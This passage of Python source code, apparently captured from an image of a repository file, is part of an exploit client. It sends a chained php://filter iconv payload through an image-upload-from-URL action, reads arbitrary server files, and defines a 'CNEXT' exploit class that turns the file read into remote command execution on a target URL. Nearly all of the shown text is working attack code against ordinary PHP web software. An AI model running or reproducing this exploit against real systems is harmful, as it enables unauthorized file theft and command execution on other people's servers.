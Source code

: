 ```python
                'url' : urllib.parse.quote_plus('php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource='+path),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)


    def send_exploit(self, payload: bytes) -> Response:
        """Sends the payload to the server.
        """
        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus(payload),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)
        
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        file_path = self.send(path).json()['response']
        
        if 'File type' in file_path:
            print(file_path)
            return b''
        
        response = self.session.get(file_path)
        data = response.content[6:]
        return data

    def data_decode(self, data:bytes)->bytes:
        data = data.decode('latin-1')
        return base64.decode(data + (4 - len(data) % 4) * '=')

@entry
@arg("url", "Target URL")
@arg("command", "Command to run on the system; limited to 0x140 bytes")
@arg("sleep", "Time to sleep to assert that the exploit worked. By default, 1.")
@arg("heap", "Address of the main zend_mm_heap structure.")
@arg(
    "pad",
    "Number of 0x100 chunks to pad with. If the website makes a lot of heap "
    "operations with this size, increase this. Defaults to 20.",
)
@dataclass
class Exploit:
    """CNEXT exploit: RCE using a file read primitive in PHP."""

    url: str
    command: str
```